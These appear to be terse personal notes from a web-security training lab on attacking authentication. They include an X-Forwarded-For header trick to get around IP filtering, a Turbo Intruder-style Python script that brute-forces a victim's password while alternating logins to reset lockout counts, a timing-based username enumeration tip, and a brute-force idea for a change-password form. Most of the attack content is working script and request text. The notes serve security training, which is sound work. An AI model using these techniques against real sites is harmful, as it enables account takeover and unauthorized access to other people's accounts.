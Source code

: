 [#](#) Authentication

Bypass IP Filtering:

    X-Forwarded-For: foo
    
    Reset lock counts upon successful?

    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

        for word in open('C:\Users\srbx7\Desktop\lists\password.txt'):
            engine.queue(target.req, ["wiener","peter"])
            engine.queue(target.req, ["carlos",word.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status == 302:
            table.add(req)
    ```
Time based enumeration (add long password ;) )

Can't bypass IP Filtering?

    Fuzz no matter what, and grep negative for error?

Change Password:

    - POST Change Username?
    - POST username=wiener&current=peter&new_1=AAAA&new_2=BBBB
        - > New Passwords do not match > Bruteforce
